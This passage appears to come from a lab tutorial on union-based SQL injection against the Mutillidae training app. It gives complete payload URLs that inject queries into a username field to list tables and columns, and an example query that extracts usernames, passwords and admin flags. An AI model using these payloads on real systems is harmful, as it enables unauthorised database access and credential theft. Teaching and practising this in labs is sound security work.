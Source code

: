 Here we are trying to extract column names from the “accounts” table.

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27%20union%20select%201,table_name,3,4,5%20from%20information_schema.tables%20where%20table_schema=database()%23&password=&user-info-php-submit-button=View+Account+Details

## OUTPUT :


![Alt text](img/21.png)





The column names of the accounts is displayed below for the following url:




Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

## OUTPUT :
